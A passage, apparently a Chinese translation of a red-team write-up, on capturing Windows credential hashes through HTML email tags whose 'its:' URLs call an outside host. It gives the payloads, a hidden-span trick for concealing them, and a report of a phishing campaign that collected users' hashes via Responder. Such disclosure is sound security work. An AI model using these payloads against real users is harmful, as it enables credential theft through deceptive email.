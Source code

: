 ```
&lt;/style&gt;
       @import 'its:/example.com/foo1/test';
       @import url(its:/example.com/foo2/test);
&lt;/style&gt;
```

**Body tag (Image):**

```
&lt;body background="its:/example.com/IDontExistNew/foobar"&gt;
```

**Input tag (Image):**

```
&lt;input type="image" src="its:/example.com/IDontExistNew/foobar" name="test" value="test"&gt;
```

**Link tag (Style):**

```
&lt;link rel="stylesheet" href="its:/example.com/IDontExistNew/foobar" /&gt;
```

**VML tag (Image):**

```
&lt;v:background xmlns:v="urn:schemas-microsoft-com:vml"&gt;
            &lt;v:fill src="its:/example.com/IDontExistNew/foobar" /&gt;
&lt;/v:background&gt;
```

所有上述HTML标签的组合也可用于增加远程执行的机会。<br>
payload也可以使用像这样的方法隐藏在电子邮件中：

```
&lt;span class="show" style="overflow:hidden; float:left; display:none; line-height:0px;"&gt;&lt;br /&gt;&lt;br /&gt;&lt;br /&gt;&lt;br /&gt;&lt;br /&gt;&lt;br /&gt;&lt;br /&gt;&lt;br /&gt;&lt;br /&gt;&lt;br /&gt;&lt;br /&gt;
This part is hidden
&lt;v:background xmlns:v="urn:schemas-microsoft-com:vml"&gt;
           &lt;v:fill src="its:/example.com/IDontExistNew123456/foobar" /&gt;
&lt;/v:background&gt;

&lt;/span&gt;
```

当用户以纯文本格式查看电子邮件时，攻击者在发送电子邮件时可以使用不同的MIME类型来隐藏payload。 因此，只有以HTML格式查看电子邮件的用户才能成为目标用户。 这也可能被滥用，以诱使普通用户查看HTML格式的电子邮件来执行攻击。



## Piranha 钓鱼平台

在识别出这个漏洞后，我们就可以在红队的参与下在其他地方尝试。使用我们的Piranha网络钓鱼平台，我们制作了两封HTML邮件;第一个是明目张胆的钓鱼电子邮件，第二个是基于实际的批量营销电子邮件。在这两种情况下，在Piranha中都编辑了HTML源代码，以包含指向基于Internet的系统运行Responder的“其”URL的CSS [@import](https://github.com/import)。

首先，一些有针对性的用户将明显的网络钓鱼电子邮件转发给他们的IT部门，在此过程中揭示了他们自己的IT管理员和他们的IT管理员的hash。第二，隐形的电子邮件被发送给十个用户。其中8位在公司网络外收到电子邮件（正确阻止了445端口的出站流量），导致他们的哈希被捕获。值得注意的是，这比我们观察我们的自动化式的Piranha 用户运行的活动有大约四倍的成功概率，这些用户将受害者引诱到虚假的登录页面;使用合法的批量营销电子邮件作为转发人也阻止任何人举报。
